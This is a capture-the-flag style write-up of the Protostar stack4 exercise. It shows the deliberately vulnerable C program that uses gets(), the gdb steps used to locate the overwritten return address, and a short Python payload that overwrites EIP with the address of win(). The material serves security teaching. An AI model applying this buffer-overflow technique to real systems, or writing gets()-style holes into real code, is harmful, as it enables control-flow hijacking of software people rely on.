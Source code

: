 ## Protostar exercises - [stack1](https://exploit-exercises.lains.space/protostar/stack4/)

#### About
Stack4 takes a look at overwriting saved EIP and standard buffer overflows.

This level is at /opt/protostar/bin/stack4

Hints

A variety of introductory papers into buffer overflows may help.
gdb lets you do “run < input”
EIP is not directly after the end of buffer, compiler padding can also increase the size.

#### Source code:
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

#### Procedure:

after main is executed, the stack contains the address which called main. At the last statement of main (ret) this address is popped off stack and stack frame goes back to previous state and ESP points to the return pointer. 

We can change the return pointer to point to win() function, this executing it after ret

###### Vulnerability:

`gets` is vulnerable function.


###### Disassembly:

**disassemble.png**

Lets start by running ./stack4 with a large input (AAAABBBBCCCCDDDDEEEEFFFFIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ) since we dont know where the return pointer is

create breakpoint at ret `break *0x0804841e` and run

**ret-1.png**

We can see that $esp (0xbffff75c) is loaded with 0x56565656 and the next step after ret tried to execute 0x56565656 and failed.

So, if we can overwrite 0xbffff75c with the address of win(), we are done

address of win can be found using objdump or in gdb
```
(gdb) x win
0x80483f4 <win>:        0x83e58955
```

Lets modify our python program to add this address to string after 0x55 (U)
```
padding = "AAAABBBBCCCCDDDDEEEEFFFFIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUU"
padding += "\xf4\x83\x04\x08" #address 0x80483f4
print padding
```

**done.png**

Now we can see that $esp now has 0x080483f4 and win() is executed



